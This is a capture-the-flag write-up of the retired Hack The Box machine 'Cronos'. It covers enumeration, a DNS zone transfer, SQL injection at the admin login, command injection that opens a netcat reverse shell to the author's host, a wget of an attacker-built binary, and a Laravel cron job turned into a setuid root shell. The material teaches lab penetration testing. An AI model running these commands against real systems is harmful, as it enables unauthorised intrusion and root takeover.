 # Cronos

This is the write-up for the box Cronos that got retired at the 5th August 2017.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.13    cronos.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/cronos.nmap 10.10.10.13
```

```markdown
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page we see the Apache2 default page.
As this server has DNS open there will probably be _Virtual Host Routing_ active so lets visit the site with the hostname **cronos.htb**.

Now we see a real web page with this:

![Cronos web page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_web-page.png)

All the links have something to do with a software called **Laravel** which is a PHP framework.
As this won't help much we start _Gobuster_ to look for hidden paths on this site:
```markdown
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u http://cronos.htb/ 
```

We only get _/server-status_ but with a HTTP code 403 (Forbidden).

## Checking DNS (Port 53)

As the DNS service runs on TCP, which is unusual, we will check for _DNS Zone Transfer records_:
```markdown
dig axfr @10.10.10.13 cronos.htb
```
```markdown
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
```

The most interesting one is probably **admin.cronos.htb** so lets put the domains in the _Hosts_ file and browse there.
It gives us a login page:

![Cronos login page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_login-page.png)

### Exploiting the Login Page

After copying the request for the login page and saving it as a file (login.req) we try a SQL Injection with _SQLMap_ on this:
```markdown
sqlmap -r login.req 
```

Interesting output from SQLMap:
> sqlmap got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n]

> POST parameter 'username' is vulnerable.(...)

So lets try a basic SQL Injection on the username field:

![Cronos SQL Injection](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_sqli.png)

And we are logged in and see this page:

![Cronos Welcome page](https://kyuu-ji.github.io/htb-write-up/cronos/cronos_welcome-page.png)

### Exploiting the Net Tool

This page executes the commands _traceroute_ and _ping_ from the system so lets try basic command injection by appending another command after a semicolon.
Appending `; whoami` on the input field gives us the output _www-data_ so we have command execution and will start a reverse shell that listens on my IP and port 9001:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 9001 >/tmp/f

# In the request and URL-encoded:
command=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.8+9001+>/tmp/f
```

And we have a reverse shell session on the box!

## Privilege Escalation

Uploading and starting the enumeration script **LinEnum.sh** and looking at the output we see a cronjob that we want to exploit.
> \* \* \* \* \*    root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

The cronjob runs a Laravel command every minute as root and this can get us command execution as root.
On the [Laravel documentation](https://laravel.com/docs/5.8/scheduling) we can see how the scheduled commands work and create our own commands.

First we need to find the file **Kernel.php**:
```markdown
find / -iname Kernel.php 2>/dev/null

/var/www/laravel/app/Console/Kernel.php
```

We will modify the schedule function in this file to create the file _test_ in the _/tmp_ directory:
```php
//(...)
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('touch /tmp/test')->everyMinute(); //The line we add
        // $schedule->command('inspire')
        //          ->hourly();
    }
//(...)
```

After on minute the command gets automatically executed and file got created with root permissions.
That means we can compile a TTY shell and execute it to start a session with root.

We create a file named **shell.c** with this content:
```c
int main(void)
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```

And compile it:
```markdown
gcc shell.c -o shell
```

Now we need to upload this shell on the box and make it executable: 
```markdown
# Downloading the binary on the box
wget http://10.10.14.8:8000/shell

# Making it executable
chmod +x shell
```

And we need modify the _Kernel.php_ script to give it the setuid bit and change the owner to root, so it runs as root:
```php
//(...)
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('chown root:root /tmp/shell; chmod 4755 /tmp/shell')->everyMinute();
        // $schedule->command('inspire')
        //          ->hourly();
    }
//(...)
```

After one minute it runs and we can run the binary and get a root shell!

